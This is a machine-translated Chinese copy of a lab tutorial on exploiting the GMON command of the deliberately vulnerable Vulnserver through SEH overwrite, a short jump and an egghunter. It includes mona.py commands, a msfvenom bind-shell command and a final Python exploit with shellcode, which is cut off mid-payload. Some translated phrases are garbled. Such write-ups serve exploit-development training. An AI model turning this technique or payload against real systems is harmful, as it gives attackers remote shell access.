# Vulnserver —第 3 部分

> 原文：<https://infosecwriteups.com/expdev-vulnserver-part-3-24859bd31c0a?source=collection_archive---------4----------------------->


# Vulnserver —第 3 部分(GMON — SEH 覆盖)

这将是第三个`vulnserver` exploit 系列。这次我们将模糊和利用易受攻击的命令`GMON`。我们将首先用一个普通的`EIP`覆盖来识别一个崩溃点。然后我们将深入探讨如何利用`SEH`覆盖来控制崩溃时的堆栈。最后，我们将利用 Egghunter 从受限空间逃到更大的土地，以引入我们的 shell 代码，最终得到一个 bind shell。我们开始吧！

# 实验室环境

*   **操作系统:** Windows 7 (x86)
*   **调试器:** OllyDbg，WinDbg (mona.py)
*   **模糊器:**模糊器
*   **目标:** Vulnserver — `GMON`命令(`SEH`覆盖)

详细的实验室设置指南可在[这里](https://medium.com/@bigb0ss/expdev-vulnserver-part-1-ba35b9e36478)找到

*   "**Vulnserver—第一部分**"

# 初步侦察

让我们快速检查一下`GMON`命令是做什么的。



GMON 命令

# 起毛

因为我们已经有了之前在第 1 部分中创建的模糊脚本，我们可以对我们的模糊器做一些小的改动。



来源:[fuzz _ gmon . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/fuzz_gmon.py)

像往常一样，让我们用 OllyDbg 连接`vulnserver`。然后，运行我们的 fuzzer。

```
**### Running the Fuzzer**
C:\Users\bigb0ss\Desktop\scripts\GMON>python fuzz_gmon.py
```

运行我们的 fuzzing 脚本几秒钟后，`vulnserver`崩溃了。从 OllyDbg 的崩溃中，我们可以清楚地看到`GMON`命令和过多的字符数导致了崩溃。



初始碰撞

## 模糊分析

同样，为了确定有多少字符导致了最初的崩溃，我们需要分析 Boofuzz 的结果。在计算了碰撞时 OllyDbg 中的“/”`2F`的近似字符并查看“DB 浏览器”后，我们可以为初始碰撞选择 4103 个字节。



数据库浏览器分析

# 剥削

## 初始崩溃概念验证

让我们创建一个 python 脚本来重现崩溃。



来源:[crash _ gmon . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/crash_gmon.py)

启动`vulnserver`并将其连接到 OllyDbg。然后，运行`crash_gmon.py`脚本。我们成功地用 PoC 脚本重现了崩溃。但是这次`SEH`(结构化异常处理程序)被 fuzzer 提供的字符覆盖了。要查看 OllyDbg 中的`SEH Chain`，请转到`View`→`SEH Chain`



再现车祸

## 寻找偏移

我们的下一步是找到一个偏移量来控制`SEH`崩溃时的时间。我们首先需要创建 4103 个独特的角色。我们将使用 WinDbg 和 mona.py 的`pattern_create`模块来完成这项工作。

运行 WinDbg 后，键入以下命令来加载 python 模块并创建模式。

```
**### Loading Python Extension of WinDbg**
.load pykd.pyd**### Mona.py Pattern_create**
!py mona pattern_create 4103
```



让我们用创建的模式更新我们的 PoC 脚本，并针对`vulnserver`再次运行脚本。



来源:[pattern _ gmon . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/pattern_gmon.py)



Pattern_gmon.py 结果

`SEH`现在被值`45346E45`覆盖。让我们再次使用 mona.py 来查找偏移量。这次，我们将使用名为`pattern_offset`的模块。

```
**### Mona.py Pattern_offset**
!py mona pattern_offset 45346E45
```



偏移量= 3522

它发现偏移量为 3522。让我们再次更新我们的 PoC 脚本，并通过对`vulnserver`运行它来确认偏移。

## 确认偏移



来源:[offset _ gmon . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/offset_gmon.py)



确认偏移

这种偏移确实是正确的。现在，我们都准备好在碰撞时控制`SEH`。

## 检查不良字符

接下来，让我们检查`GMON`命令的任何错误或受限字符。我们将使用 mona.py 的`bytearray`命令创建一个从`\x01`到`\xFF`的字节列表。(`\x00` =空终止符通常是一个坏字符，所以我们可以在生成带有`-cpb`标志的列表时排除它)

```
**### Mona.py Bytearray**
!py mona.py bytearray -cpb \x00
```



mona.py — bytearray

> 这样做的一个问题是，在`SEH`覆盖点之后，我们只剩下 52 字节的空闲空间。所以为了检查坏字符，这次我在`SEH`覆盖点前加了`bytearray`。



缺乏检查所有`bytearray`的空间

让我们用这些`bytearray`更新我们的 PoC 脚本，再次将`vulnserver`附加到 OllyDbg 并运行`badchar_trun.py`脚本。当它崩溃时，检查是否有任何字节被损坏。



来源:[bad char _ gmon . py by bigb0ss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/badchar_gmon.py)



检查不良字符

没有字节被损坏，我们很好地检查坏字符。

## 寻找流行音乐

对于典型的`SEH`覆盖利用，我们需要找到`POP POP RET`指令小工具。我们将使用 mona.py 的`seh`命令在 vulnserver 应用程序的 dll 中搜索 POP POP RET。首先，将`vulnserver`连接到 WinDbg 并运行以下命令:

```
**### Mona.py Finding "POP POP RET"**
!py mona seh
```



mona.py seh 命令结果

```
**0x6250172b** |   0x6250172b : pop edi # pop ebp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] **ASLR: False, Rebase: False, SafeSEH: False**, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)*(*Note: Make sure to choose one with "ASLR: False, Rebase: False and SafeSEH: False")*
```

让我们使用其中一个地址`0x6250172b`，并更新我们的 PoC 脚本。并再次将 vulnserver 附加到 OllyDbg，在`0x6250172b` ( `SEH`)地址设置一个断点。



断点

当我们运行 PoC 脚本时，我们确实碰到了`POP POP RET`地址，即断点。



来源:[pop-pop-ret _ gmon . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/pop-pop-ret_gmon.py)



弹出弹出 RET (0x6250172B)

酷毙了。在崩溃时，我们可以看到`SEH`被我们提供的`POP POP RET` `0x6250172b`地址覆盖。现在，输入`Shift + F9`允许异常继续进行。它会命中`POP POP RET`的`0x6250172b`地址。



在允许例外之后

按下`F7`步进指令，直到`RET`。当我们点击`RET`后，我们将被重定向到我们控制的缓冲区，特别是在我们通过漏洞脚本提供的`POP POP RET` `0x6250172b`地址之前的 4 个字节。


RET 指令后的地址

## 短 JMP

从上面的截图可以看出，我们只有 4 个字节可以玩。我们能做的就是引入一个 9 字节的短跳转(`EB`)移动到下面稍微大一点的自由空间。使用 OllyDbg 中的“二进制编辑”来快速确认我们的短跳。



短 JMP

短跳之后，我们会有下面的 49 个字节可以玩。这也没有足够的空间来介绍我们的绑定/反向外壳代码；然而，我们可以利用一个叫做 Egghunter 的很酷的小工具跳到另外一个更大的地方。(如果你想知道 Egghunter 是什么，请在这里看看我之前关于 Egghunter 的一篇博文[。)让我们在继续下一步之前更新我们的 PoC 脚本。](https://medium.com/@bigb0ss/expdev-winamp-5-12-exploitation-using-egghunter-6efb2c8a863b)



来源:[short-jmp _ gmon . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/short-jmp_gmon.py)

## 鸡蛋猎人

基本上 Egghunter 要做的是，只要我们把我们选择的 egg(例如，`b0ss`)放到堆栈上，Egghunter 就会迭代内存空间来寻找我们的 egg 并跳转到那里。这是非常性感的技巧，也是从受限空间逃到更大空间的简单方法。让我们使用 mona.py 的`egg`命令创建 Egghunter 外壳代码。

```
**### Mona.py Generating Egghunter**
!py mona egg -t T00W             **# "-t" for your choice of the egg**[+] Egg set to b0ss
[+] Generating traditional 32bit egghunter code
[+] Preparing output file 'egghunter.txt'
    - (Re)setting logfile egghunter.txt
**[+] Egghunter  (33 bytes): 
"\xcc\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a"
"\x74\xef\xb8\x54\x30\x30\x57\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff"
"\xe7"**
```

从蛋猎人跳下的理想地点是我们的偏移区域。我们将有大约 3000+字节的空间。知道了这一切，让我们来策划我们最后的剥削。

> mona.py 生成的 Egghunter 的一个警告是，第一个字节“`\xcc`”被称为 INT 3 指令，它用于调用调试异常处理程序。基本上，当我们设置一个断点时，调试器使用这个带有断点的 INT 3。不知何故，当它被添加到 Egghunter 时，它会在发送漏洞脚本时终止程序。所以只要用“`\x90`”NOP 指令替换就行了。然后，就可以工作了:)

## MSF 毒液结合壳

让我们快速创建一个`msfvenom`绑定外壳。

```
**### msfvenom Bind Shell**
$ msfvenom -p windows/shell_bind_tcp LPORT=443 -b '\x00' EXITFUNC=thread -f python*(*I used a x86 Kali Linus to create the shellcode)*
```



msfvenom 外壳代码

## 最终利用

让我们用创建的外壳代码来完成我们的 PoC 脚本。

```
**### Final_gmon.py**import socket
import struct
import os
import systarget_command = "GMON /"
offset = 3522
eip = struct.pack("<I", 0x6250172b)              **# POP POP RET**
short_jmp = "\xEB\x09\x90\x90"                   **# Short JMP**
egg = "T00WT00W" **# Egghunter (egg = T00W)**
egghunter = ""
egghunter += "\x90\x66\x81\xca\xff\x0f\x42\x52"
egghunter += "\x6a\x02\x58\xcd\x2e\x3c\x05\x5a"
egghunter += "\x74\xef\xb8\x54\x30\x30\x57\x8b"
egghunter += "\xfa\xaf\x75\xea\xaf\x75\xe7\xff"
egghunter += "\xe7"**# Bind Shell (355 Bytes)**
buf =  ""
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
